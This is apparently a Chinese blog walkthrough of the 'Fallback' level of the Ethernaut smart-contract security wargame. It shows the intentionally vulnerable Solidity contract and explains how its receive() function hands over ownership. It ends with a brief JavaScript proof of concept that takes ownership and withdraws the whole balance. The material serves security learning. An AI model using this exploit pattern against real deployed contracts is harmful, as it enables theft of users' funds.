

<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令


:::

#### 第一关Fallback思路与POC

##### 目标:提取合约中的所有余额

##### 首先看代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

//部署合约时限定部署者为owner,并贡献了1000ETH
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
//每次只能贡献0.001ETH,贡献超过1000ETH后自动成为合约拥有者
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

#### 通过审计合约代码可以发现,只需要想办法将owner存储的值设置为我们的钱包地址即可

##### 问题在哪里:很明显 receive() external. 设置了receive函数来接收转账,并且通过校验即改变owner存储的地址

##### poc思路 向Fallback合约发送转账,并通过 require(msg.value > 0 && contributions[msg.sender] > 0) 此校验

poc代码:

```js
await contract.contribute({value : 900000000000000})
await contract.sendTransaction({value : 1})
//此时查看合约owner地址已经是我们的钱包地址
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
//成功提现合约中的所有token
await contract.withdraw()
```


